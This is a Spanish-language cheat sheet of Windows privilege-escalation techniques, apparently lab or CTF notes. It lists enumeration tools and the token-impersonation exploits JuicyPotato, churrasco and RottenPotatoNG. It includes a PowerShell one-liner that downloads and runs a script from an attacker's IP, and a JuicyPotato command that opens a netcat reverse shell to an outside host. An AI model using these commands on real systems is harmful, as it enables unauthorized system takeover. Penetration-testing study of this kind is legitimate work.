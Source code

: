 **Lista de privilegios peligrosos en este proyecto de github**
[GitHub - gtworek/Priv2Admin: Exploitation paths allowing you to (mis)use the Windows Privileges to elevate your rights within the OS.GitHub](mis)use%20the%20Windows%20Privileges%20to%20elevate%20your%20rights%20within%20the%20OS.GitHub)

## Abusando de programas vulnerables

### Unpatched Software

```
wmic product get name,version,vendor # para listar los programas instalados
```

## Herramientas automatizadas

- WinPEAS: [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

- PrivEscCheck: [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

- WES-NG: [https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng)

- Watson para ver si hay versiones antiguas de los programas: [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

- Sherlock.ps1 para ver si hay exploit kernel: [https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1](https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1) (Para ejecutarlo simplemente tenemos que añadir al final del script `Find-AllVulns` y poner el script en un servidor con python y ejecutarlo desde la máquina con el siguiente comando `IEX(New-Object Net.WebClient).downloadString('http://<tuip>/Sherlock.ps1'`)

- JuicyPotato: [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato) para abusar de estos privilegios:

    - SeImpresonatePrivilage

    - SeAssignPrimaryTokenPrivilage

```
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c C:\Windows\Temp\PrivESc\nc.exe -e cmd 10.10.14.14 4443" -c "CLSID"
```

En versiones antiguas como Windows Server 2003 no funciona el JuicyPotato, pero hay el churrasco.exe que funciona en estos casos, paso un artículo que lo explica todo:[https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

Aquí dejo un artículo que explica muy bien como funciona el JuicyPotato:
[Impersonating Privileges with Juicy PotatoMedium](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505)

- RottenPotatoNG: [https://github.com/breenmachine/RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) para abusar de estos privilegios:

    - CoGetInstanceFromIStorage
